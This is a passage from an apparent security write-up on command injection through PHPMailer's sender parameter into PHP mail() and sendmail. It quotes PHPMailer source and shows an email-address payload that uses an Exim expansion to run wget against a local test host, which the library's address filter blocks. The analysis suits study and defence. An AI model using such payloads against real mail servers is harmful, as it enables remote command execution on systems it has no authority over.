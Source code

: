 ```php
```

But if developer decides to set PHPMailer attributes by hand, and forgot about Sender, function will stop to be vulnerable (since mailsend() will not feed mail() with 'extraParams').


4.At last we arrive to mailPassthru(). The function in PHPMailer that calls PHP mail().

```php
[...]
    private function mailPassthru($to, $subject, $body, $header, $params)
    {
        //Check overloading of mail function to avoid double-encoding
        if (ini_get('mbstring.func_overload') & 1) {
            $subject = $this->secureHeader($subject);
        } else {
            $subject = $this->encodeHeader($this->secureHeader($subject));
        }
        //Can't use additional_parameters in safe_mode
        //@link http://php.net/manual/en/function.mail.php
        if (ini_get('safe_mode') or !$this->UseSendmailOptions) {
            $result = @mail($to, $subject, $body, $header);
        } else {
            $result = @mail($to, $subject, $body, $header, $params);
[...]
```

In first instance, it looks like we can just use the same payload that we used for mail() but we can see that is not working conrrectly:

```bash
Payload:
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}

Commandebugger:
Received: /usr/sbin/sendmail
Received:
Received:
Received:
```

Extra parameters are being blocked, this is due to the 'email Format' filter applied by PHPMailer in "presend()" function:

```php
[...]
public static function validateAddress($address, $patternselect = null)
    {

[...]

switch ($patternselect) {
            case 'pcre8':
                /**
                 * Uses the same RFC5322 regex on which FILTER_VALIDATE_EMAIL is based, but allows dotless domains.
                 * @link http://squiloople.com/2009/12/20/email-address-validation/
                 * @copyright 2009-2010 Michael Rushton
                 * Feel free to use and redistribute this code. But please keep this copyright notice.
                 */
                return (boolean)preg_match(
                    '/^(?!(?>(?1)"?(?>\\\[ -~]|[^"])"?(?1)){255,})(?!(?>(?1)"?(?>\\\[ -~]|[^"])"?(?1)){65,}@)' .
                    '((?>(?>(?>((?>(?>(?>\x0D\x0A)?[\t ])+|(?>[\t ]*\x0D\x0A)?[\t ]+)?)(\((?>(?2)' .
                    '(?>[\x01-\x08\x0B\x0C\x0E-\'*-\[\]-\x7F]|\\\[\x00-\x7F]|(?3)))*(?2)\)))+(?2))|(?2))?)' .
```